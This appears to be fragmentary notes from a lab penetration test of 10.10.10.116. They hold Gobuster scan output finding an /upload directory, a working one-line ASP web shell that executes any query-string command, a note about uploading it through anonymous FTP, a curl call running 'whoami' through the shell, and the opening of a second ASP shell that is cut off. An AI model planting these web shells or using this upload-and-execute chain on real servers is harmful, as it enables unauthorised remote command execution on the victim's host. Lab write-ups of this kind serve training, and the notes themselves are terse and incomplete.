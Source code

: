 =====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.116/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : txt,aspx,asp,html
[+] Timeout      : 10s
=====================================================
2019/01/14 08:39:29 Starting gobuster
=====================================================
/upload (Status: 301)
/Upload (Status: 301)
=====================================================
2019/01/14 09:47:03 Finished
=====================================================
````

## ASP shell

````
# cat /opt/shells/asp/cmd.asp 
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>


ftp put...

# curl http://10.10.10.116/upload/0xdf.asp?cmd=whoami


````


## ftp anomymous

put tst.txt

````
cat hello.asp

<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
